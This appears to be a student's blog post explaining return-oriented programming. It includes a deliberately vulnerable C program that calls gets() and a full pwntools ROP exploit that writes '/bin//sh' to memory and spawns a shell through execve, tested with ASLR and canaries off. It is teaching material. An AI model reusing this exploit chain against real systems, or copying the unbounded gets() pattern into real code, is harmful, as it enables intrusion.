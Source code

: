 ```yaml
---
layout: post
title:  "A rop project"
categories: [project]
tags: [ROP]
---
```


In the last semester i attended the computer security course, and since i had to do a project i made a simple program to exploit with a rop chain in order to explain how return oriented programming works.
Here i will explain everything about.
During my presentation i started talk about the fact that during the excution of a program the memory is under the constraint Write XOR Execute. Part of the memory that i can write i cannot execute and viceversa.
And so is here where Return Oriented programming come in action, with this technique when a program is vulnerable for example to a buffer overflow i can still execute malicious code even if i can't upload the shellcode directly in the stack.
Supposing to work on a x86 architecture, i have on the stack the base pointer and after that the return address of the function (see the image below).

![My helpful screenshot](/assets/stack1.png)

Here's the code that i wanted to exploit:
{% highlight c %}
include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

void r()
{
	char s[30];
	gets(s);
}

void ouch()
{
	printf("%s\n","hi!!");
}

int main()
{
	r();
	//printf("%s\n",s);	
	printf("%s\n","end!");
	return 0;
}
{% endhighlight %}

So the goal is to overwrite the return address, and consequentially what came after that with addresses of memory that contain little piece of code that terminate with the instruction ret and so on. So i search inside the program this little pieces of code that are called gadget. In this way after one of this little piece of code terminate is execution the next instruction that will be executed will be the one at address2 see the image below.

![My helpful screenshot](/assets/stack2.png)

And so on with this trick is possible execute a shell.
To do all of this i used Radare2(that allow me to search gadget inside the code) and pwntools(that simplify me the construction of the exploit).
All of this was did whit ASLR disabled and no stack canaries, that are two of contromeasures used to avoid this kind of attack.
To do all of this i had to search the right gadgets to execute the instructions and spawn /bin/sh.
The parameters to exec /bin/sh are:
- eax = 0xb
- ebx = address of memory of string "/bin/sh"
- ecx = pointer to pointer of string "/bin/sh"
- edx = env variable but that can be set to 0 with no problem

To simplify things i used the string "/bin//sh" because on linux is ignored the double slash.
So i searched the gadgets.
I found pop eax, pob ebx, and pop edx with no problems, the only one problem was for pop ecx see below: (but i decided to maintan it in order to find a way to patch it).

![My helpful screenshot](/assets/pop_ecx.png)

After that i search the address of the bss in order to have a place to write /bin//sh.
And after that i search the write-what-where gadget that allow me to write at a specific address a value with the use of two register. In this way using the pop instructions i could set value to register and with this gadget write the memory (the bss).

![My helpful screenshot](/assets/write_mem.png)

To patch the pop ecx i used a pop esi since in the gadget above there was or cl,byte[esi] in order to make the ecx value to not change. NOTE: that this work only because the specific value in the memory, proprably with ASLR enabled i should have to change to make this work.
After that i search for xor edx, edx. And in the end i found xor eax, eax and one last instruction that increase the al register, so i called it the number of times to reach the number of the syscall (0xb).
And in the end the int 0x80 to make the syscall.
To clarify i had to add an initial padding to fill the buffer.
In the end once i execute my program i had this:


EDIT: i used sudo but there isn't a motivation, exploit works also with process with uid different from zero
![My helpful screenshot](/assets/PoC.png)

the ";" is to mantaint the interaction, anyway there is a method in pwntools that i didn't know at the time.
Here's the code of the final exploit.
{% highlight python %}
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *

DIM_BUF = 42

PAD = "A" * DIM_BUF

pop_eax =  0xf7ffafb5
pop_ebx =  0xf7ff2c21 
pop_ecx = 0xf7ff82f9 
                
pop_edx =   0xf7ff8c15 

pop_esi = 0xf7ff2949

shell1 = "/bin"
shell2 = "//sh"

mem_to_write = 0x56557020
write_the_mem = 0xf7feb47b # mov dword[edx], eax

zero_place = 0x56557040
#copy_zero_to_edx = 0xf7ff2f05

#mov_ecx = 0xf7ff2f19

xor_edx = 0xf7ff0670 
#mov_eax_ff = 0xf7ff1633 
xor_eax = 0xf7ff2534

inc1_eax =  0xf7fd9a96 
int_80 = 0xf7ff2195 

buf = PAD 

buf += p32(pop_edx) 
buf += p32(mem_to_write)
buf += p32(pop_eax)
buf += "/bin"
buf += p32(write_the_mem)
buf += p32(pop_edx) 
buf += p32(mem_to_write + 4)
buf += p32(pop_eax)
buf += "//sh"
buf += p32(write_the_mem)
buf += p32(pop_eax) 
buf += p32(mem_to_write)
buf += p32(pop_edx) 
buf += p32(mem_to_write + 12) 
buf += p32(write_the_mem)
buf += p32(pop_esi)
buf += p32(mem_to_write + 12)
buf += p32(pop_ecx)
buf += p32(mem_to_write + 12)
buf += p32(xor_edx)
buf += p32(mem_to_write) 
buf +="AAAAAAAA" #raw data
buf += p32(xor_eax) 

for i in range(11):
    buf += p32(inc1_eax) 

buf += p32(int_80) 

print(buf)

{% endhighlight %}
Maybe all of this is over simplified and not to much clear, i decided to not explain somethings in detail but i thing that in general the basic idea is ok. However this was my first article so i have a very loooooong road to improve my infosec (and also writing) skills.



